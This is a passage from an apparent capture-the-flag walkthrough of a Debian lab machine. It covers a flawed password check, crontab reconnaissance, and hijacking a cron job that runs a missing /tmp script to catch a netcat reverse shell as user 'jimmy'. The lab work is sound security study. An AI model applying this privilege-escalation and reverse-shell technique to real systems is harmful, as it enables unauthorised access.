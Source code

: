     if (password) == "secretsec" or "secretlab" :
      print("WELCOME ! ")
    else:
      print("GET OUT ! ")
      os.system("pkill -u 'martin'")

## Privilege elevation

As always a bit of reconnaissance is needed.

    martin@debian:~$ ls -alRh /home/
    /home/:
    <SNIP>

    /home/hadi:
    total 60K
    drwxr-xr-x 3 hadi hadi 4,0K juin   5 13:40 .
    drwxr-xr-x 5 root root 4,0K juin   9 20:17 ..
    -rw-r--r-- 1 hadi hadi  220 avril 26  2017 .bash_logout
    -rw-r--r-- 1 hadi hadi 3,5K avril 26  2017 .bashrc
    -rwxr-xr-x 1 root root 5,3K mai   10  2017 buff
    -rw-r--r-- 1 root root 1,1K mai   10  2017 buff.c
    -rw-r--r-- 1 root root  148 juin   5 13:25 example.c
    -rw------- 1 root root 2,1K juin   5 13:40 .gdb_history
    -rwxr-xr-x 1 root root 5,9K juin   5 13:38 overflow
    -rw-r--r-- 1 root root   19 mai   10  2017 peda-session-buff.txt
    -rw-r--r-- 1 root root    5 juin   5 13:40 peda-session-overflow.txt
    -rw-r--r-- 1 hadi hadi  675 avril 26  2017 .profile
    drwxr-xr-x 2 hadi hadi 4,0K mai    1  2017 .ssh
    <SNIP>

Okay we got a program `buff` owned by root and and file `buff.c` readable by anybody but there is no suid, so no need to bother here.
`martin@debian:/home/hadi$ ls -laRh /etc/cron.d` doesn't get us something useful but `cat /etc/crontab` seems usable:

    martin@debian:/home/hadi$ cat /etc/crontab 
    <SNIP>
    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    # m h dom mon dow user	command
    17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
    25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    */5   * * * *   jimmy   python /tmp/sekurity.py

Of course the script launch by jimmy in `tmp` doesn't exist. We create one with a simple python reverse shell [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

    :::text
    root@kalili:~# nc -l -p 1234
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1002(jimmy) gid=1002(jimmy) groupes=1002(jimmy)
